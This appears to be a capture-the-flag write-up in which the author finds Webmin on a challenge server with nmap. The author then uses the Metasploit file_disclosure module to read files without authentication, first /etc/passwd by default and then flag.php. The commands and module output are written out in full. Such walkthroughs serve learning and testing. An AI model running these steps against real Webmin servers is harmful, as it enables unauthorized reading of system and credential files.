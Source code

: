 Webmin - Exploit 2
========================
## Challenge:

> **Description:** This challenge had us connecting to a server where the following information was shown. A flag.php file and a webmin folder containing a config file.
>
> **Goal:** Find the flag for 2000 Points.

## Solution:

Solving this problem was pretty fun. Though the taunt of having flag.php right in front of me was painful. First off I began by looking through the provided files. It was no surprise that flag.php wasn't going to contain the viewable flag. So, onto the next file, webmin. This folder contained a basic webmin config file that provided no real useful information either. So what do. I know that there is a flag.php file somewhere on the server that most likely contains the flag, and that the server is running webmin.

Armed only with that information I figured something else had to be on the server. Bring in good old nmap.
```
nmap -Pn 54.221.X.X

Port      State Service
22/tcp    open  ssh
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt
```

Wooh! Whats that!? snet-sensor-mgmt running on port 10000? Interesting. After giving that a go I found myself at a webmin login page. I started broswing the googles for any default accounts or passwords but I soon found there were none. Better yet the server implemented a timeout mechanism to stop brute forcing. Huh, what now?

Well. There _has_ to be another way. Are there any exploits for webmin?? Ah lookie [here](http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure), this looks interesting. Now given our knowledge of flag.php, our best bet is that it resides in /var/www/. So lets fire it up.
```
msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

  Name     Current Setting    Required  Description
  ----     ---------------    --------  -----------
  DIR      /unauthenticated   yes       Webmin directory path
  Proxies                     no        Use a proxy chain
  RHOST    54.221.*.*         yes       The target address
  RPATH    /etc/passwd        yes       The file to download
  RPORT    10000              yes       The target port
  VHOST                       no        HTTP server virtual host

msf auxiliary(file_disclosure) > set RPATH /var/www/flag.php
msf auxiliary(file_disclosure) > exploit
```

Boom! We have a flag!

**NCL-OSSL-1337**
